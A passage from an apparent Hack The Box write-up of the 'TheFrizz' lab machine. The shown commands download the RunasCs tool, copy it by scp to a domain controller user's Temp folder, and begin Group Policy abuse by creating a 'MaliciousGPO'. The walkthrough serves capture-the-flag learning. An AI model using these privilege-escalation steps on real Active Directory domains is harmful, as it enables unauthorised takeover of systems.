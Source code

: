 ```
--2025-07-23 18:00:19--  https://release-assets.githubusercontent.com/github-production-release-asset/201331135/46cefc59-1a1e-4e32-8b47-864a11159984?sp=r&sv=2018-11-09&sr=b&spr=https&se=2025-07-22T09%3A49%3A37Z&rscd=attachment%3B+filename%3DRunasCs.zip&rsct=application%2Foctet-stream&skoid=96c2d410-5711-43a1-aedd-ab1947aa7ab0&sktid=398a6654-997b-47e9-b12b-9515b896b4de&skt=2025-07-22T08%3A48%3A50Z&ske=2025-07-22T09%3A49%3A37Z&sks=b&skv=2018-11-09&sig=abla3NQrKpwmFHYbcd30dS8nmPNr4FEtqERwHvPc02M%3D&jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmVsZWFzZS1hc3NldHMuZ2l0aHVidXNlcmNvbnRlbnQuY29tIiwia2V5Ijoia2V5MSIsImV4cCI6MTc1MzE3NTEwMSwibmJmIjoxNzUzMTc0ODAxLCJwYXRoIjoicmVsZWFzZWFzc2V0cHJvZHVjdGlvbi5ibG9iLmNvcmUud2luZG93cy5uZXQifQ.QcGItL5X1M4hw1yN3HzQsIUibTXzZNREEk5m0qwpuBY&response-content-disposition=attachment%3B%20filename%3DRunasCs.zip&response-content-type=application%2Foctet-stream
Resolving release-assets.githubusercontent.com (release-assets.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to release-assets.githubusercontent.com (release-assets.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39889 (39K) [application/octet-stream]
Saving to: ‘RunasCs.zip’

RunasCs.zip                                100%[=======================================================================================>]  38.95K  --.-KB/s    in 0.003s

2025-07-23 18:00:19 (13.6 MB/s) - ‘RunasCs.zip’ saved [39889/39889]


fcoomans@kali:~/htb/thefrizz$ unzip RunasCs.zip
Archive:  RunasCs.zip
  inflating: RunasCs.exe
  inflating: RunasCs_net2.exe

fcoomans@kali:~/htb/thefrizz$ scp -o GSSAPIAuthentication=yes RunasCs.exe m.schoolbus@frizzdc.frizz.htb:'C:/Users/M.SchoolBus/AppData/Local/Temp'
RunasCs.exe                                                                                                                              100%   51KB 103.4KB/s   00:00
```

Now for the magic!  

First, I create an empty malicious GPO.

```
PS C:\Users\M.SchoolBus\AppData\Local\Temp> New-GPO -Name MaliciousGPO

DisplayName      : MaliciousGPO
DomainName       : frizz.htb
Owner            : frizz\M.SchoolBus
Id               : fe31cf74-b10c-40e7-88be-57a53f2ac036
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 7/23/2025 9:11:36 AM
ModificationTime : 7/23/2025 9:11:36 AM
UserVersion      :
ComputerVersion  :
WmiFilter        :
```
